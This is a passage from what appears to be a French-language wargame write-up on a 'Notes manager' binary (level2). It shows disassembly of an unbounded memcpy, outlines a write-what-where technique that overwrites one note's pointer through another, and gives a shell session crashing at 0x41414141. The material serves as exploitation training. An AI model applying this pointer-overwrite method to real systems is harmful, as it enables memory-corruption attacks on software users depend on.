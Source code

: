 ```nasm
0x08048c01      mov dword [endptr], edx ; const void *s2
0x08048c05      mov dword [esp], eax ; void *s1
0x08048c08      call memcpy        ; sym.imp.memcpy ; void *memcpy(void *s1, const void *s2, size_t n)
0x08048c0d      mov eax, dword [var_18h]
0x08048c10      mov dword [endptr], eax
0x08048c14      mov dword [esp], str.Note__d_set ; 0x8049007 ; const char *format
0x08048c1b      call printf        ; sym.imp.printf ; int printf(const char *format)
0x08048c20      jmp 0x8048dd5
```

Le programme récupère un buffer via `readline()` puis un `memcpy()` est utilisé pour le recopier dans la note avec en taille le résultat du `strlen()`. Comme `readline()` n'est pas borné alors la recopie non plus.

## Exploit 101

Du coup la technique d'exploitation sera la suivante :

- créer une première note vide (note 0)

- créer une seconde note vide (note 1)

- écrire dans la note 0 pour écraser le pointeur vers la chaine de caractère dans la note 1 par une adresse de notre choix

- écrire dans la note 1 qui permettra d'écrire à l'adresse que l'on a écrasé

C'est un write-what-where.

Soit dans la pratique :

```bash
level1@pb0x:/home/level1$ ./level2 
[*] Notes manager - 1.0
[*] Type help for the command list
> new
[*] New note created with id 0
> new
[*] New note created with id 1
> set 
> id: 0
> text(32 max): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[*] Note 0 set
> set
> id: 1
> text(32 max): nawak
Segmentation fault (core dumped)
level1@pb0x:/home/level1$ dmesg | tail -1
[64445.295726] level2[10442]: segfault at 41414141 ip b769b096 sp bfdf8c28 error 6 in libc-2.15.so[b7560000+1a4000]
```

On voit que l'on a bien un segfault car on a tenté d'écrire à l'adresse `0x41414141` correspondant à nos `A`.
